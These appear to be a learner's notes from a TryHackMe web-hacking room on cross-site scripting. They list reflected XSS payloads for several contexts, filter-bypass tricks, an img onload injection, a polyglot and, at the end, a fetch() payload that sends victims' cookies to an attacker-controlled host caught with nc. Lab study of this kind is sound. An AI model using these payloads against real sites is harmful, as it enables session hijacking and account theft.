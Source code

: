 # Scenarios
### If you enter information into a field and it returns that info on a page such as:
![49444bf865cdc230d9855b53d93745c6.png](49444bf865cdc230d9855b53d93745c6.png)
-  Test for 
```
<script>alert('THM');</script>
```

### If your response is being reflected through an input tag:
![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/2f6b23615d6970aab8e1fb2a8d352e9f.png)
- It wouldn't work if you were to try the previous JavaScript payload because you can't run it from inside the input tag. Instead, we need to escape the input tag first so the payload can run properly. You can do this with the following payload: 
```
"><script>alert('THM');</script>
```
- the `">` which closes the value parameter and then closes the input tag.  This now closes the input tag properly and allows the JavaScript payload to run:
![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/21a6597c0964f08c69ebffbf014a886a.png)

### same as the previous, but your name gets reflected inside an HTML tag, this time the textarea tag:
![c3d0d38d23fab0608bc3ca8b9441974c.png](c3d0d38d23fab0608bc3ca8b9441974c.png)
- to escape the textarea tag, use the following payload: 
```
</textarea><script>alert('THM');</script>
```
- `</textarea>` causes the textarea element to close so the script will run.

### your name gets reflected in some JavaScript code.
![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/80fd5abe95b63ce52ff0ff9f9f6f6d57.png)
- You'll have to escape the existing JavaScript command, so you're able to run your code; you can do this with the following payload 
```
';alert('THM');//
```
- The `'` closes the field specifying the name, then `;` signifies the end of the current command, and the `//` at the end makes anything after it a comment rather than executable code.

### if you try the `<script>alert('THM');</script>` payload, it won't work. When you view the page source, you'll see why.  
![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/9bd2142b2bcd4b4cba34e571550294e4.png)  
- The word `script`  gets removed from your payload, that's because there is a filter that strips out any potentially dangerous words.  
- When a word gets removed from a string, there's a helpful trick that you can try:
**Original Payload:**
`<sscriptcript>alert('THM');</sscriptcript>`

**Text to be removed (by the filter):**
`<sscriptcript>alert('THM');</sscriptcript>`

**Final Payload (after passing the filter):**
`<script>alert('THM');</script>`

- To do this, use the following payload:
```
<sscriptcript>alert('THM');</sscriptcript>
```

### When prompted to enter an image path
Here, where we had to escape from the value attribute of an input tag, we can try `"><script>alert('THM');</script>` , but that doesn't seem to work.
![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/8856b113fd514db704157837a6e6aeb4.png)  
- You can see that the < and > characters get filtered out from our payload, preventing us from escaping the IMG tag. To get around the filter, we can take advantage of the additional attributes of the IMG tag, such as the onload event. 
- The onload event executes the code of your choosing once the image specified in the src attribute has loaded onto the web page.
- change our payload to reflect this:
```
/images/cat.jpg" onload="alert('THM');
``` 
- Then viewing the page source, and you'll see how this will work.
![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/3260719921aba8ad6eb8d887094fcb87.png)

### Polyglots
An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one.
```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/ -!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```
-  XSS polyglots are useful for **quick and broad** testing, but they **aren't enough** for thorough XSS testing. You’ll need to craft **context-specific payloads** to evade filters, WAFs, and different sanitization methods.

### Extract cookies when another user visits the same site and loads our script
Our payload will need to extract the user's cookie and exfiltrate it to another webserver server of our choice.
1. Firstly, we'll need to set up a listening server to receive the information. `nc -lnvp PORT`
2. Build the payload:
```
</textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>
```
- The `</textarea>` tag closes the text area field.
- The `<script>` tag opens an area for us to write JavaScript.
- The `fetch()` command makes an HTTP request.
- `URL_OR_IP` is either the request catcher URL or your IP address from your attacking box
- `PORT_NUMBER` is the port number you are using to listen for connections on 
- `?cookie=` is the query string containing the victim’s cookies.
- `btoa()` command base64 encodes the victim’s cookies.
- `document.cookie` accesses the victim’s cookies for the Acme IT Support Website.
- `</script>`closes the JavaScript code block.
3. Wait for the connection


